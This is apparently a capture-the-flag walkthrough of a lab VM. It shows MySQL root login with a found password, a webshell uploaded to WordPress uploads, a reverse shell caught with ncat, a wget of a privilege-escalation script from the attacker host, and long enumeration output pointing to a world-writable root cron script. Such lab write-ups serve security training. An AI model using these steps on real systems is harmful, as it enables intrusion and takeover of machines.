<br>
<br>
<p><h3>Port 3306 check:</h3></p>
<hr>
<p><font size="3.5" color="black">Attempt to access MySQL database with creds (U:root,P:plbkac) and upload a webshell:</font></p> 

<hr>
<br>
<br>
<p><h3>Webshell:</h3></p>
<hr>
<p><font size="3.5" color="black">Ifconfig output and setup of reverse python shell to my host:</font></p> 

<br>
<br>
<p><font size="3.5" color="black">Reverse python shell:</font></p>
<pre style="background-color:black;color:white;">
[GandoPC 192.168.43.10]# ncat -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.43.10.
Ncat: Connection from 192.168.43.10:55812.
/bin/sh: 0: can't access tty; job control turned off
$ ifconfig
enp0s3    Link encap:Ethernet  HWaddr 08:00:27:c5:84:c5  
          inet addr:192.168.43.10  Bcast:192.168.43.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:705681 errors:172 dropped:0 overruns:0 frame:0
          TX packets:590590 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:160697530 (160.6 MB)  TX bytes:261275471 (261.2 MB)
          Interrupt:9 Base address:0xd000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:549 errors:0 dropped:0 overruns:0 frame:0
          TX packets:549 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:56456 (56.4 KB)  TX bytes:56456 (56.4 KB)

$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd;ls
/var/www/https/blogblog/wp-content/uploads
606078739.jpeg
Gandoshellllll.php
</pre>
<hr>
<br>
<br>
<p><h3>Privilege escalation:</h3></p>
<hr>
<p><font size="3.5" color="black">Basic enumeration using linuxprivchecker.py and cronjob manipulation:</font></p> 
<pre style="background-color:black;color:white;">
$ wget 192.168.43.3//Tools/linuxprivchecker/linuxprivchecker.py
--2018-09-25 20:25:18--  http://192.168.43.3//Tools/linuxprivchecker/linuxprivchecker.py
Connecting to 192.168.43.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 25304 (25K)
Saving to: 'linuxprivchecker.py'

     0K .......... .......... ....                            100%  429K=0.06s

2018-09-25 20:25:19 (429 KB/s) - 'linuxprivchecker.py' saved [25304/25304]

$ ls -l
total 36
-rw-r--r-- 1 www-data www-data  3042 Sep 25 17:04 606078739.jpeg
-rw-rw-rw- 1 mysql    mysql       39 Sep 25 19:14 Gandoshellllll.php
-rw-r--r-- 1 www-data www-data 25304 Sep 16 15:14 linuxprivchecker.py
$ chmod +x linuxprivchecker.py
$ python ./linuxprivchecker.py
=================================================================================================
LINUX PRIVILEGE ESCALATION CHECKER
=================================================================================================

[*] GETTING BASIC SYSTEM INFO...

[+] Kernel
    Linux version 4.4.0-21-generic (buildd@lgw01-06) (gcc version 5.3.1 20160413 (Ubuntu 5.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016

[+] Hostname
    red.initech

[+] Operating System
    __..--''\
    __..--''         \
    __..--''          __..--''
    __..--''          __..--''       |
    \ o        __..--''____....----""
    \__..--''\
    |         \
    +----------------------------------+
    +----------------------------------+

[*] GETTING NETWORKING INFO...

[+] Interfaces
    enp0s3    Link encap:Ethernet  HWaddr 08:00:27:c5:84:c5
    inet addr:192.168.43.10  Bcast:192.168.43.255  Mask:255.255.255.0
    UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
    RX packets:705807 errors:172 dropped:0 overruns:0 frame:0
    TX packets:590713 errors:0 dropped:0 overruns:0 carrier:0
    collisions:0 txqueuelen:1000
    RX bytes:160733420 (160.7 MB)  TX bytes:261288145 (261.2 MB)
    Interrupt:9 Base address:0xd000
    lo        Link encap:Local Loopback
    inet addr:127.0.0.1  Mask:255.0.0.0
    UP LOOPBACK RUNNING  MTU:65536  Metric:1
    RX packets:558 errors:0 dropped:0 overruns:0 frame:0
    TX packets:558 errors:0 dropped:0 overruns:0 carrier:0
    collisions:0 txqueuelen:1
    RX bytes:56996 (56.9 KB)  TX bytes:56996 (56.9 KB)

[+] Netstat
    Active Internet connections (servers and established)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:53              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:666             0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -
    tcp        0      0 192.168.43.10:55812     192.168.43.3:4444       ESTABLISHED 8570/python
    tcp        0      1 127.0.0.1:55426         127.0.0.1:631           SYN_SENT    -
    tcp6       0      0 :::139                  :::*                    LISTEN      -
    tcp6       0      0 :::53                   :::*                    LISTEN      -
    tcp6       0      0 :::22                   :::*                    LISTEN      -
    tcp6       0      0 :::12380                :::*                    LISTEN      -
    tcp6       0      0 :::12380                :::*                    LISTEN      -
    tcp6       0      0 :::445                  :::*                    LISTEN      -
    tcp6      86      0 192.168.43.10:12380     192.168.43.3:33287      CLOSE_WAIT  -
    udp        0      0 192.168.43.255:137      0.0.0.0:*                           -
    udp        0      0 192.168.43.10:137       0.0.0.0:*                           -
    udp        0      0 0.0.0.0:137             0.0.0.0:*                           -
    udp        0      0 192.168.43.255:138      0.0.0.0:*                           -
    udp        0      0 192.168.43.10:138       0.0.0.0:*                           -
    udp        0      0 0.0.0.0:138             0.0.0.0:*                           -
    udp        0      0 0.0.0.0:53              0.0.0.0:*                           -
    udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
    udp        0      0 0.0.0.0:69              0.0.0.0:*                           -
    udp6       0      0 :::53                   :::*                                -

[+] Route
    Kernel IP routing table
    Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
    192.168.43.0    *               255.255.255.0   U     0      0        0 enp0s3

[*] GETTING FILESYSTEM INFO...

[+] Mount results
    sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
    proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
    udev on /dev type devtmpfs (rw,nosuid,relatime,size=494820k,nr_inodes=123705,mode=755)
    devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
    tmpfs on /run type tmpfs (rw,nosuid,noexec,relatime,size=102416k,mode=755)
    /dev/sda1 on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
    securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
    tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
    tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
    tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
    cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd,nsroot=/)
    pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
    cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer,nsroot=/)
    cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb,nsroot=/)
    cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct,nsroot=/)
    cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio,nsroot=/)
    cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices,nsroot=/)
    cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids,nsroot=/)
    cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset,nsroot=/)
    cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event,nsroot=/)
    cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio,nsroot=/)
    cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory,nsroot=/)
    systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=22,pgrp=1,timeout=0,minproto=5,maxproto=5,direct)
    hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
    mqueue on /dev/mqueue type mqueue (rw,relatime)
    debugfs on /sys/kernel/debug type debugfs (rw,relatime)
    fusectl on /sys/fs/fuse/connections type fusectl (rw,relatime)
    tmpfs on /run/lxcfs/controllers type tmpfs (rw,relatime,size=100k,mode=700)
    memory on /run/lxcfs/controllers/memory type cgroup (rw,relatime,memory,nsroot=/)
    blkio on /run/lxcfs/controllers/blkio type cgroup (rw,relatime,blkio,nsroot=/)
    perf_event on /run/lxcfs/controllers/perf_event type cgroup (rw,relatime,perf_event,nsroot=/)
    cpuset on /run/lxcfs/controllers/cpuset type cgroup (rw,relatime,cpuset,nsroot=/)
    pids on /run/lxcfs/controllers/pids type cgroup (rw,relatime,pids,nsroot=/)
    devices on /run/lxcfs/controllers/devices type cgroup (rw,relatime,devices,nsroot=/)
    net_cls,net_prio on /run/lxcfs/controllers/net_cls,net_prio type cgroup (rw,relatime,net_cls,net_prio,nsroot=/)
    cpu,cpuacct on /run/lxcfs/controllers/cpu,cpuacct type cgroup (rw,relatime,cpu,cpuacct,nsroot=/)
    hugetlb on /run/lxcfs/controllers/hugetlb type cgroup (rw,relatime,hugetlb,nsroot=/)
    freezer on /run/lxcfs/controllers/freezer type cgroup (rw,relatime,freezer,nsroot=/)
    name=systemd on /run/lxcfs/controllers/name=systemd type cgroup (rw,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd,nsroot=/)
    lxcfs on /var/lib/lxcfs type fuse.lxcfs (rw,nosuid,nodev,relatime,user_id=0,group_id=0,allow_other)
    tmpfs on /run/user/1013 type tmpfs (rw,nosuid,nodev,relatime,size=102416k,mode=700,uid=1013,gid=1013)
    tmpfs on /run/user/1028 type tmpfs (rw,nosuid,nodev,relatime,size=102416k,mode=700,uid=1028,gid=1028)
    binfmt_misc on /proc/sys/fs/binfmt_misc type binfmt_misc (rw,relatime)

[+] fstab entries
    # /etc/fstab: static file system information.
    #
    # Use 'blkid' to print the universally unique identifier for a
    # device; this may be used with UUID= as a more robust way to name devices
    # that works even if disks are added and removed. See fstab(5).
    #
    #                
    # / was on /dev/sda1 during installation
    UUID=9bdd8a90-41cc-484f-8c75-0249b9103a31 /               ext4    errors=remount-ro 0       1
    # swap was on /dev/sda5 during installation
    UUID=9584ec4a-8708-4802-96e6-9e3067074554 none            swap    sw              0       0

[+] Scheduled cron jobs
    -rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab
    /etc/cron.d:
    total 32
    drwxr-xr-x   2 root root  4096 Jun  3  2016 .
    drwxr-xr-x 100 root root 12288 Jun  7  2016 ..
    -rw-r--r--   1 root root   102 Jun  3  2016 .placeholder
    -rw-r--r--   1 root root    56 Jun  3  2016 logrotate
    -rw-r--r--   1 root root   589 Jul 16  2014 mdadm
    -rw-r--r--   1 root root   670 Mar  1  2016 php
    /etc/cron.daily:
    total 56
    drwxr-xr-x   2 root root  4096 Jun  3  2016 .
    drwxr-xr-x 100 root root 12288 Jun  7  2016 ..
    -rw-r--r--   1 root root   102 Apr  5  2016 .placeholder
    -rwxr-xr-x   1 root root   539 Apr  5  2016 apache2
    -rwxr-xr-x   1 root root   376 Mar 31  2016 apport
    -rwxr-xr-x   1 root root   920 Apr  5  2016 apt-compat
    -rwxr-xr-x   1 root root  1597 Nov 26  2015 dpkg
    -rwxr-xr-x   1 root root   372 May  6  2015 logrotate
    -rwxr-xr-x   1 root root   539 Jul 16  2014 mdadm
    -rwxr-xr-x   1 root root   249 Nov 12  2015 passwd
    -rwxr-xr-x   1 root root   383 Mar  8  2016 samba
    -rwxr-xr-x   1 root root   214 Apr 12  2016 update-notifier-common
    /etc/cron.hourly:
    total 20
    drwxr-xr-x   2 root root  4096 Jun  3  2016 .
    drwxr-xr-x 100 root root 12288 Jun  7  2016 ..
    -rw-r--r--   1 root root   102 Apr  5  2016 .placeholder
    /etc/cron.monthly:
    total 20
    drwxr-xr-x   2 root root  4096 Jun  3  2016 .
    drwxr-xr-x 100 root root 12288 Jun  7  2016 ..
    -rw-r--r--   1 root root   102 Apr  5  2016 .placeholder
    /etc/cron.weekly:
    total 28
    drwxr-xr-x   2 root root  4096 Jun  3  2016 .
    drwxr-xr-x 100 root root 12288 Jun  7  2016 ..
    -rw-r--r--   1 root root   102 Apr  5  2016 .placeholder
    -rwxr-xr-x   1 root root    86 Apr 13  2016 fstrim
    -rwxr-xr-x   1 root root   211 Apr 12  2016 update-notifier-common

[+] Writable cron dirs


[*] ENUMERATING USER AND ENVIRONMENTAL INFO...

[+] Logged in User Activity
    20:26:22 up  6:17,  0 users,  load average: 0.09, 0.10, 0.10
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT

[+] Super Users Found:
    root

[+] Environment
    APACHE_RUN_DIR=/var/run/apache2
    APACHE_PID_FILE=/var/run/apache2/apache2.pid
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    APACHE_LOCK_DIR=/var/lock/apache2
    LANG=C
    APACHE_RUN_USER=www-data
    APACHE_RUN_GROUP=www-data
    APACHE_LOG_DIR=/var/log/apache2
    PWD=/var/www/https/blogblog/wp-content/uploads

[+] Root and current user history (depends on privs)

[+] Sudoers (privileged)

[+] All users
    root:x:0:0:root:/root:/bin/zsh
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    lxd:x:106:65534::/var/lib/lxd/:/bin/false
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
    messagebus:x:108:111::/var/run/dbus:/bin/false
    sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
    peter:x:1000:1000:Peter,,,:/home/peter:/bin/zsh
    mysql:x:111:117:MySQL Server,,,:/nonexistent:/bin/false
    RNunemaker:x:1001:1001::/home/RNunemaker:/bin/bash
    ETollefson:x:1002:1002::/home/ETollefson:/bin/bash
    DSwanger:x:1003:1003::/home/DSwanger:/bin/bash
    AParnell:x:1004:1004::/home/AParnell:/bin/bash
    SHayslett:x:1005:1005::/home/SHayslett:/bin/bash
    MBassin:x:1006:1006::/home/MBassin:/bin/bash
    JBare:x:1007:1007::/home/JBare:/bin/bash
    LSolum:x:1008:1008::/home/LSolum:/bin/bash
    IChadwick:x:1009:1009::/home/IChadwick:/bin/false
    MFrei:x:1010:1010::/home/MFrei:/bin/bash
    SStroud:x:1011:1011::/home/SStroud:/bin/bash
    CCeaser:x:1012:1012::/home/CCeaser:/bin/dash
    JKanode:x:1013:1013::/home/JKanode:/bin/bash
    CJoo:x:1014:1014::/home/CJoo:/bin/bash
    Eeth:x:1015:1015::/home/Eeth:/usr/sbin/nologin
    LSolum2:x:1016:1016::/home/LSolum2:/usr/sbin/nologin
    JLipps:x:1017:1017::/home/JLipps:/bin/sh
    jamie:x:1018:1018::/home/jamie:/bin/sh
    Sam:x:1019:1019::/home/Sam:/bin/zsh
    Drew:x:1020:1020::/home/Drew:/bin/bash
    jess:x:1021:1021::/home/jess:/bin/bash
    SHAY:x:1022:1022::/home/SHAY:/bin/bash
    Taylor:x:1023:1023::/home/Taylor:/bin/sh
    mel:x:1024:1024::/home/mel:/bin/bash
    kai:x:1025:1025::/home/kai:/bin/sh
    zoe:x:1026:1026::/home/zoe:/bin/bash
    NATHAN:x:1027:1027::/home/NATHAN:/bin/bash
    www:x:1028:1028::/home/www:
    postfix:x:112:118::/var/spool/postfix:/bin/false
    ftp:x:110:116:ftp daemon,,,:/var/ftp:/bin/false
    elly:x:1029:1029::/home/elly:/bin/bash

[+] Current User
    www-data

[+] Current User ID
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

[*] ENUMERATING FILE AND DIRECTORY PERMISSIONS/CONTENTS...

[+] World Writeable Directories for User/Group 'Root'
    drwxrwxrwt 2 root root 4096 Jun  3  2016 /var/crash
    drwxrwxrwt 2 root root 4096 Jun  7  2016 /var/tmp
    drwxrwxrwt 2 root root 4096 May 20  2016 /var/spool/samba
    drwx-wx-wt 2 root root 4096 Sep 25 16:09 /var/lib/php/sessions
    drwxrwxrwt 7 root root 4096 Sep 25 20:25 /tmp
    drwxrwxrwt 2 root root 4096 Sep 25 14:09 /tmp/.Test-unix
    drwxrwxrwt 2 root root 4096 Sep 25 14:09 /tmp/.XIM-unix
    drwxrwxrwt 2 root root 4096 Sep 25 14:09 /tmp/.ICE-unix
    drwxrwxrwt 2 root root 4096 Sep 25 14:09 /tmp/.X11-unix
    drwxrwxrwt 2 root root 4096 Sep 25 14:09 /tmp/.font-unix
    drwxrwxrwt 2 root root 40 Sep 25 11:09 /dev/mqueue
    drwxrwxrwt 2 root root 40 Sep 25 14:09 /dev/shm
    drwxrwxrwt 5 root root 100 Sep 25 14:09 /run/lock

[+] World Writeable Directories for Users other than Root
    drwxrwxrwx 2 www-data www-data 4096 Sep 25 20:25 /var/www/https/blogblog/wp-content/uploads
    drwxrwxrwx 2 www www 4096 Jun  5  2016 /home/www

[+] World Writable Files
    -rw-rw-rw- 1 mysql mysql 39 Sep 25 19:14 /var/www/https/blogblog/wp-content/uploads/Gandoshellllll.php
    -rwxrwxrwx 1 www www 0 Jun  3  2016 /etc/authbind/byport/80
    -rwxrwxrwx 1 root root 51 Jun  3  2016 /usr/local/sbin/cron-logrotate.sh
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/init.scope/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/mdadm.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/dev-sda5.swap/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/inetutils-inetd.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/dbus.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/var-lib-lxcfs.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/cron.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/lvm2-lvmetad.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-cpu\x2ccpuacct.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/rc-local.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/apport.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-modules-load.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/apache2.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/dev-disk-by\x2did-ata\x2dVBOX_HARDDISK_VB8810de15\x2d59e8e8c2\x2dpart5.swap/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/iscsid.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-memory.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/postfix.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/-.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/open-iscsi.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-perf_event.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/netfilter-persistent.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/atd.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-user-sessions.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-journald.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/atftpd.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/sys-fs-fuse-connections.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-tmpfiles-setup.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/proc-sys-fs-binfmt_misc.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/dev-disk-by\x2duuid-9584ec4a\x2d8708\x2d4802\x2d96e6\x2d9e3067074554.swap/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/grub-common.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-sysctl.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-user-1013.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/dnsmasq.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/ondemand.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/lvm2-monitor.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-pids.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/dev-mqueue.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-tmpfiles-setup-dev.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/vsftpd.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-hugetlb.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/ssh.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-logind.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-journal-flush.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-random-seed.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/system-getty.slice/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-net_cls\x2cnet_prio.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/dev-disk-by\x2dpath-pci\x2d0000:00:0d.0\x2data\x2d1\x2dpart5.swap/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-udevd.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/mysql.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-name\x3dsystemd.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-blkio.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-devices.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-user-1028.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/kmod-static-nodes.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-freezer.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/php7.0-fpm.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-udev-trigger.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/console-setup.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/rsyslog.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/nmbd.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-remount-fs.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/sys-kernel-debug.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/smbd.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/dev-hugepages.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/run-lxcfs-controllers-cpuset.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/samba-ad-dc.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/systemd-update-utmp.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/lxcfs.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/system.slice/acpid.service/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 25 20:18 /sys/fs/cgroup/memory/user.slice/cgroup.event_control
    -rw-rw-rw- 1 root root 0 Sep 25 11:09 /sys/kernel/security/apparmor/.access
